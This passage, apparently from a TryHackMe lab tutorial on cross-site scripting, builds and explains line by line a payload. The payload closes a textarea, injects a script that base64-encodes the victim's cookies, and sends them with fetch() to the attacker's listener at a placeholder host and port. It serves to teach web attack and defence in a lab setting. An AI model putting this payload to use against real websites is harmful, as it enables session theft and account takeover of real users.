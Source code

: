 Now that we’ve set up the method of receiving the exfiltrated information, let’s build the payload.

`</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`

- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- `PORT_NUMBER` is the port number you are using to listen for connections on the AttackBox.
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.